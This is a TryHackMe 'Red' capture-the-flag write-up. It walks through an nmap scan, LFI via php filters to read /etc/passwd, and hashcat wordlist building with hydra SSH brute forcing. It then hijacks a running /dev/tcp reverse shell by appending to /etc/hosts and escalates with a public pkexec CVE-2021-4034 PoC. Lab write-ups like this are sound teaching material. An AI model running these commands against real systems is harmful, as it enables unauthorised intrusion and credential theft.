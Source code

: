 ```yaml
---
title: "THM - Red writeup"
date: 2024-05-02
image: /assets/images/red/red_banner.png
tags: [tryhackme, writeups, linux, nmap, path_traversal, hashcat, hydra, CVE-2021-4034]
categories: [TryHackMe, Writeup]
redirect_from: /2024/05/02/RED/
---
```


Hi,

been a long time since my last post. I have done some easy boxes on [TryHackMe](tryhackme.com).
And this is the writeup for one of those boxes I have done: [Red](https://tryhackme.com/r/room/redisl33t)

## Information Gathering

As always, lets start with nmap. I have my routine in using nmap:
First I set the current target ip into a variable

```bash
TARGET="TARGET_IP"
# or for fish shell, which I have choose as my default shell
set TARGET TARGET_IP
```

With this, I always use a default port scan followed by a service scan:

```bash
nmap -Pn $TARGET -oN ports && nmap -Pn -sC -sV -p $(grep '.*(?=\/tcp)' ports | tr '\n' ',') $TARGET -oN services
```

I only use `-p-` when I'm stuck and desperate.

This scan reveals only two open ports:

- 80 is running a webserver
- 22 running ssh

## Website

![atlas_website.png](/assets/images/red/atlas_website.png){: .w-75 .shadow .rounded-10 w='1212' h='668' }

As this is a CTF, I searched for hidden hints on the website, but couldn't find any. But one thing got my attention,
the url provides a variable:

```
?page=
```

So I tried some LFI techniques and run [feroxbuster](https://github.com/epi052/feroxbuster) but sadly there where no useful outputs.

Then I tried [php filters](https://book.hacktricks.xyz/pentesting-web/file-inclusion#php-filter) and got some useful outputs.

```
curl http://$TARGET:80/index.php?page=php://filter/resource=/etc/passwd
```

![curl_passwd.png](/assets/images/red/curl_passwd.png){: .w-75 .shadow .rounded-10 w='1212' h='668' }

Now there is our way in!

## First flag

I tried nearly everything, to get more information or even a real foothold without luck.

```
/home/blue/.ssh/
/home/red/.ssh/
/etc/crontab
...
```

But then I found something on blue's home directory:

![bash_history.png](/assets/images/red/bash_history.png){: .w-75 .shadow .rounded-10 w='1212' h='668' }

Sadly the passlist.txt file was deleted, but the way to build it is well documentated and the .reminder file still persists and is readable.

Now to build our wordlist (yes I tried it with rockyou.txt before, its a waste of time) we have to do the same thing, as red obviously did.

> Download the ruleset for hashcat if you miss it on your system: [best64.rule](https://github.com/CarlosLannister/OwadeReborn/blob/master/owade/fileAnalyze/hashcatLib/best64.rule)
{: .prompt-info}

Now run the same command locally:

```bash
hashcat --stdout .reminder -r ./best64.rule > passlist.txt
```

With the wordlist used to set the password of blue, we can now try to crack it against ssh.

```bash
hydra -I -l blue -P ./passlist.txt ssh://$TARGET
```

It will not take for long to find the password of the user blue:

![crack_blue.png](/assets/images/red/crack_blue.png){: .w-75 .shadow .rounded-10 w='1212' h='668' }

Now log in via ssh and print out the first flag, which lays in /home/blue directory.

## Second flag

While I was searching for an opportunity for lateral movement, my session disconnected...

![suprise.png](/assets/images/red/suprise.png){: w='1212' h='668' }

And there are print outs of the user red. (simulated, for sure)

I checked for SUID, cron jobs and misconfigurations in files, but nothing useful there. And while looking around, "red" kept kicking me out of the shell. Everytime I was kicked out, I had to bruteforce the password of user blue, because it had been changed. And yeah, I already tried to change the password to avoid being kicked out:

![pwchange.png](/assets/images/red/pwchange.png){: .w-75 .shadow .rounded-10 w='1212' h='668' }

Next I looked into the running processes, and couldn't find any suspicious process running by root, but one running by red:

```
bash -c nohup bash -i >& /dev/tcp/redrules.thm/9001 0>&1 &
```

Obviously a reverse shell to a specific fqdn. Checking the `/etc/hosts` file and it contains the fqdn. I couldn't figure out where the command lays on the system. Even if I locate the command's executable, blue may not have the permission to read or execute the command.

After a while, I realized something! Every time when "red" writes a message to us, one of the two running reverse shell instances will be replaced from a new instance of the same reverse shell command:

![cronjob.png](/assets/images/red/cronjob.png){: .w-75 .shadow .rounded-10 w='1212' h='668' }

This means, that there is some cronjob running and it calls the command. Because there are two instances of the reverse shell command, we may have luck and the second command could be used to get a shell as user "red". In most modern system, if the fqdn resolves to multiple ips and the first ip is busy with an instance of the command, subsequent instances of the same command may attempt to connect to the other ip addresses associated with the fqdn.

Ok, fine. I just need to add my ip into the `/etc/hosts` file then. But there is one problem with that, the hosts file can't be written with texteditor like nano or vi. By using `lsattr` it can be seen that the file has `append-only` permission. So I had to use some sort of redirection.

```bash
echo "<MY-IP> redrules.thm" >> /etc/hosts
```

Running a netcat listener on port 9001, I was able to get a shell as user "red".

## Root flag

The root flag is an easy one, because on user red's home, there is a `.git` directory where an executable called `pkexec` lays.

![pkexecVersion.png](/assets/images/red/pkexecVersion.png){: .w-75 .shadow .rounded-10 w='1212' h='668' }

By looking up the version of pkexec on google, there can be seen a vulnerability: CVE-2021-4034

Most of the PoC's are written in C, but I searched for a python version of the exploit, to avoid the building process, and found one on github: [joeammond's CVE-2021-4034](https://github.com/joeammond/CVE-2021-4034)

For this PoC to work, I had to change the last line, which is referring to the pkexec location. After that, just upload it to the target with a python http server open.

```bash
python -m http.server 9090
```

![rootID.png](/assets/images/red/rootID.png){: .w-75 .shadow .rounded-10 w='1212' h='668' }

Now as root the root flag can be printed out easely...

Good luck :)

---

![darksoulsMeme.png](/assets/images/darksoulsMeme.png){: width="972" height="589" }
